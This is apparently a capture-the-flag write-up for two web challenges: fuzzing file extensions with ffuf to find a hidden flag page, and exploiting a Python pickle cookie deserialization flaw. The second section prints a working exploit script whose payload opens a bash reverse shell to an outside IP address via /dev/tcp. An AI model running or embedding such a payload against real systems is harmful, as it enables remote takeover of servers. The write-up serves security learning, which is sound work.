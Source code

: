 - When I visit the robots.txt it seems normal but scroll bar looking spooky like it means file is too large so check and this what i got!!!!

![image.png](images/Web/Dir_Dash/image3.png)

- I found this another section, but yeah they fooled us,

![image.png](images/Web/Dir_Dash/a5e81d8e-5db0-43f6-b20c-4f7b467168ca.png)

- But Watching Carefully I got the something,

![image.png](images/Web/Dir_Dash/495ded9b-faff-4c42-964c-4a470add9424.png)

- It looks like Hash but i don’t know where to use it, this is where hint helps,
- Which means we have to do FUZZING of file extensions
    
    

```jsx
Domain//////hash............extensions
```

- So i have tries this hash with https://github.com/ffuf/ffuf and try to FUZZ on extension,

```jsx
ffuf -u http://edition1.ctf.cybermaterial.com/c5ba7ff1883453170f7590fa689f1f48FUZZ -w /mnt/d/Cyber_Stuff/SecLists-master/Discovery/Web-Content/web-extensions.txt
```

![image.png](images/Web/Dir_Dash/image4.png)

- And I Found `.aspx` file extension so i try to access that file and B00M!!!! I got the flag!!!

![image.png](images/Web/Dir_Dash/image5.png)

```json
CM{3xten5i0n5_w45_CR4zY}
```

## Pickle Me This Cookie Jar Shenanigans!

![image.png](images/Web/Pickle_Me_This_Cookie_Jar_Shenanigans/image.png)

- This Challenge was quite interesting and challenging also,
- When we visit the website it looks like this,

![image.png](images/Web/Pickle_Me_This_Cookie_Jar_Shenanigans/image1.png)

- As per mentioned in description we know that this server has **cookie deserialization vulnerability** in pickle `(CVE-2022-34668)` and we have to exploit it.
- After some googling around i found some pickle exploit scripts but many of them not properly working so after some head smashing finally got the script which work perfectly.

```python
from base64 import b64encode
import pickle
import subprocess

# Define a class for malicious deserialization
class anti_pickle_serum(object):
    def __reduce__(self):  # Use double underscores
        # This is where the reverse shell command will be executed
        return subprocess.Popen, (["/bin/bash", "-c", "bash -i >& /dev/tcp/13.127.206.16/15354 0>&1"],)

# Serialize the payload and encode it
pickled = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
encoded_pickled = b64encode(pickled)

```